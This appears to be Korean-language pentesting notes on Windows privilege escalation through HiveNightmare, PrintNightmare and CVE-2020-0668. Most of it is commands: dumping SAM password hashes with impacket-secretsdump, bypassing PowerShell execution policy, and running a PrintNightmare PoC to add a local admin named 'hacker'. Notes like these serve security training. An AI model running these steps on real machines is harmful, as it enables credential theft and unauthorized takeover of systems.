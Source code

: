```
## 주목할만한 취약점

- CVE-2021-36934 HiveNightmare
### SAM 파일에 대한 권한 확인
```icacls c:\Windows\System32\config\SAM```

### 공격 수행 및 비밀번호 해시 구문 분석
- [PoC](https://github.com/GossiTheDog/HiveNightmare)
```.\HiveNightmare.exe```<br/>
```impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local```

- CVE-2021-1675/CVE-2021-34527 PrintNightmare
### 스풀러 서비스 확인
```ls \\localhost\pipe\spoolss```

### PrintNightmare PowerShell PoC를 사용하여 로컬 관리자 추가
```Set-ExecutionPolicy Bypass -Scope Process```
```
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

### Confirming New Admin User
```net user hacker```

## 누락된 패치 열거

### 설치된 업데이트 검사
```
systeminfo
wmic qfe list brief
Get-Hotfix
```

### WMI로 설치된 업데이트 보기
```wmic qfe list brief```

## CVE-2020-0668 예

### 현재 사용자 권한 확인
```whoami /priv```

### After Building Solution
- [익스플로잇](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668)
```shell-session
CVE-2020-0668.exe
CVE-2020-0668.exe.config
CVE-2020-0668.pdb
NtApiDotNet.dll
NtApiDotNet.xml
```
- [UsoDllLoader](https://github.com/itm4n/UsoDllLoader), [DiagHub](https://github.com/xct/diaghub)와 같은 다른 취약점과 연결 필요
